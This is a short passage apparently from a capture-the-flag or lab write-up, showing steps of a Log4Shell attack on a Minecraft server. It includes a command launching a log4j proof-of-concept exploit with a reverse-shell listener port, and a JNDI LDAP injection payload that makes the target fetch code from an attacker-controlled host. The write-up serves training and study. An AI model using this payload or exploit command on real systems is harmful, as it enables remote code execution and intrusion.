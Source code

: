 ```
cmd.exe
```
   
   ![](./IMG/20.png)
   
4. Launch the exploit code (log4j-shell-poc)
```
python poc.py --userip 10.10.16.23 --webport 1336 --lport 4444
```

> It's clearly to see there is a payload which I need to sent to minecraft server

```
${jndi:ldap://10.10.14.22:1389/a}
```

![](./IMG/13.png)
